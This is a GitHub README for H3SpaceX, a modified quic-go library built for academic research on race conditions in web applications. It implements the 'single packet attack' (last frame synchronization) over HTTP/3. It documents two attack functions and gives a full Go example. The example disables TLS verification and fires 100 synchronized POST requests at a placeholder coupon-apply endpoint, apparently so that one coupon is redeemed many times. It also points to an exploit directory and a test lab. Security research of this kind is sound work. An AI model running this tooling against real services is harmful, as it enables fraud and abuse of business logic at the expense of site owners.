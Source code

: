 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets QUIC connection (type: quic.Connection)
  - second param gets an array of requests which need to be sent.
  - third param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - fourth param is for number of milliseconds which library waits before sending last DATA frames
  - fifth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendGetNoBodyRequestsWithSinglePacketAttackMethod`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets QUIC connection (type: quic.Connection)g
    - second param gets an array of requests which need to be sent.
- Function return:
    - a map of requests with value of their response
```go
func SendGetNoBodyRequestsWithSinglePacketAttackMethod(quicConn quic.Connection,
	allRequests []*http.Request,
) map[*http.Request]*http.Response
```

### Installation

    go get github.com/nxenon/h3spacex


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory. It contains:
- [Last Frame Synchronization for Requests with a Body](exploit/README.md#last-frame-synchronization-for-requests-with-a-body)
- [Last Frame Synchronization for Requests without Body (GET requests within a single packet)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-within-a-single-packet)
- [## Last Frame Synchronization for Requests without Body (GET requests with FAKE DATA Frames)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-with-fake-data-frames)

## Lab (HTTP/2/3 Web Application)
For testing exploits see [Rc-H3-WebApp](https://github.com/nxenon/rc-h3-webapp/) repo.

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
